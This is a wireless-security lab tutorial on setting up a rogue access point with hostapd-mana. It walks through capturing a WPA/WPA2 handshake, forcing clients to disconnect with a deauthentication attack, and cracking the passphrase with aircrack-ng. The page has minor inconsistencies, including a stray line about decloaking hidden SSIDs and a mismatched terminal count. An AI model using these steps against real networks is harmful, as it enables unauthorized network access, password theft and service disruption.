 # Rogue AP

Multiple APs that transmit the same SSID. The client/station will choose the one with the strongest signal. An attacker may advertise an AP with the same SSID except that the AP is a very bad AP controlled by the attacker.

Even if the pre-shared key is unknown, the attacker can still aquire the first two messages in the four-way handshake. Other details might make this a bit more complicated like sharing the same encryptions attributes as well.

Create an AP with DEVICE.

Demonstrate how to decloak a hidden AP's SSID

* Run [setup](../setup.md) first
* Two terminals are needed
* One client needs to be associated
* Need two ADAPTERS - connect both at the start
    * First to be the rogue AP
    * Second to be the run deauth attack against first

![two aps](../images/two-aps.png)

## Build a Rogue AP

hostapd is a user space daemon for access point and authentication servers. It implements IEEE 802.11 access point management, IEEE 802.1X/WPA/WPA2/EAP Authenticators, RADIUS client, EAP server, and RADIUS authentication server. The current version supports Linux (Host AP, madwifi, mac80211-based drivers) and FreeBSD (net80211).

Can crack WPA and WPA2. Not WPA3. Below WPA3 means WPA and WPA2, not WPA3.

### Install Hostapd-mana

```bash
# [Terminal One]
sudo apt install hostapd-mana

# Create a config file - first adapter is the rogue AP
vi hostapd.conf
interface=wlan0
ssid=rogue
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=informix
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/informix.hccapx

# Start the rogue AP
sudo hostapd-mana hostapd.conf
```
![hostapd-mana](../images/hostapd-mana.png)

* Connect client to the rogue AP w/correct PSK to see association messages

![hostapd-mana](../images/rogue-ap-connection.png)

```bash
# [Terminal Two]
sudo airmon-ng start $INTERFACE2 1
sudo airodump-ng -c 1 --bssid $INTERFACEMAC -w $TAG $INTERFACE2
```
![rogue dump](../images/rogue-ap-dump.png)

```bash
# [Terminal Three]
sudo aireplay-ng --deauth 0 -a $INTERFACEMAC $INTERFACE2

# Watch for successful fourway handshake capture message

# Stop everything
```

![rogue connection](../images/rogue-ap-authenticated.png)

```bash
# Crack the hostapd capture file
aircrack-ng -0 -e rogue -w $WORDLIST informix.hccapx
# OR the normal PCAP file
aircrack-ng -0 -e rogue -w $WORDLIST $PCAP
```

![rogue cracked](../images/rogue-ap-cracked.png)

## References
* [hostapd](https://w1.fi/hostapd/)
* [hostapd-mana](https://github.com/sensepost/hostapd-mana/)
* [hostapd-mana config](https://github.com/sensepost/hostapd-mana/blob/master/hostapd/hostapd.conf)
